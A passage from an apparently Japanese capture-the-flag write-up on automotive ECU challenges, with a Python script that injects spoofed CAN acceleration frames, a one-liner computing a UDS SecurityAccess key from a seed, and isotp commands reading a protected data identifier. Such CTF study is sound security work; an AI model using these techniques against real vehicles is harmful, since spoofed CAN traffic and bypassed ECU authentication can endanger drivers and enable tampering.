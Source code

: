 ```python
#!/usr/bin/python3

import can
import binascii
import time
import sys

with can.Bus(interface="socketcan", channel="can0") as bus:
    accel = [0x10, 0x00, 0, 1, 2, 3, 4, 5]
    i = 0

    while True:
        accel[2] = (i & 0xFF00) >> 8
        accel[3] = i & 0xFF
        crc = binascii.crc32(bytes(accel[0:4]))
        accel[4] = crc & 0xFF
        accel[5] = (crc & 0xFF00) >> 8
        accel[6] = (crc & 0xFF0000) >> 16
        accel[7] = (crc & 0xFF000000) >> 24

        i = (i + 1) & 0xFFFF

        msg = can.Message(arbitration_id=0x010, data=accel, is_extended_id=False)
        try:
            bus.send(msg)
        except can.CanError:
            print("Send message failed")

        time.sleep(0.001)
```

これ実行したらECUのディスプレイにフラグが表示された。

### [ECU B] SecurityAccess

> ECUはData Identifier 0xFFFFにフラグを保持しています。ただし、始めに認証が必要です。

UDSのSecurity Accessの問題。添付に、Challenge-and-Responseのアルゴリズム周辺のアセンブリコード。

Security Accessのプロトコルのレクチャーと、アルゴリズムにchallengeを入力して出力のresponseをECUに渡すオペレーターの役割をした。
アルゴリズムはチームメイトが解析してこんな感じ。

```python
# `chall` がシード（チャレンジ）。キー（レスポンス）が出力される
python3 -c 'chall=0x528A2019 ; print(hex((chall*3+0x1220+20)&0xffffffff^0xffff))'
```

これでSecurity Accessが突破できた後、Read Data By Identifierサービスで `FFFF` のDIDを要求するとフラグゲット。

```bash
isotprecv -s 7e1 -d 7e9 can0

echo "22 FF FF" | isotpsend -s 7e1 -d 7e9 can0
```
